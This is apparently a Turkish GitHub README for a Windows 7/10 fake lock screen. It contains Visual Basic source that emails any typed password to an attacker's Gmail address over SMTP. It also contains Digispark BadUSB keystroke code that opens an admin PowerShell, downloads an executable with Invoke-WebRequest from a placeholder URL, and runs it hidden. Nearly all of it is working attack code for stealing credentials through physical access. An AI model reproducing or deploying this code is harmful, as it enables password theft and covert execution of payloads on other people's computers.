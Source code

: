 # WindowsFakeLockScreen

<strong>WIN7 OR WIN10 FAKE LOCK SCREEN MAIL SENDING</strong>

<img src="https://i.hizliresim.com/Ii5hUx.png">

<img src="https://i.hizliresim.com/COYKEc.png">

Üst kısımdaki resimden de anlayacağınız Windows 7 ve Windows 10 için sahte bir login ekranıdır.
Programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

Amaç:
BadUSB yani Digispark bilgisayara takılır
Belirli kodlar çalışır
sahte login ekranı oluşur
Son olarak girilen şifre belirlediğimiz mail adresine gönderilir

Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>PROGRAMIN KAYNAK KODU</strong>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("mailadress@gmail.com")
                MyMailMessage.To.Add("mailadress@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("mailadress@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
Aynı kodları kullanarak win7 ve win10 görseli hazırladım
Kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.

<strong>Digispark kodları</strong>

<code><pre>#define kbd_tr_tr
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  //coder sefaoruc
  //youtube youtube.com/siberdunya
  //bu kodlar win10 için sahte bir login sayfası oluşturur
  //fake lock screen win10
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print(F("powershell Start-Process powershell -Verb runAs"));
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT ,KEY_Y);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(F("Invoke-WebRequest -Uri ('DOWNLOAD_URL') -O C:/fakelock.exe"));
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("powershell -windowstyle hidden 'C:/fakelock.exe'");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*son*/
  }
}
</code></pre>

Digispark kodlarını da bu şekilde oluşturdum

Mantık Powershell admin olarak başlatmak ve upload ettiğimiz win7 veya win10 exe dosyasını indirip çalıştırmaktır.


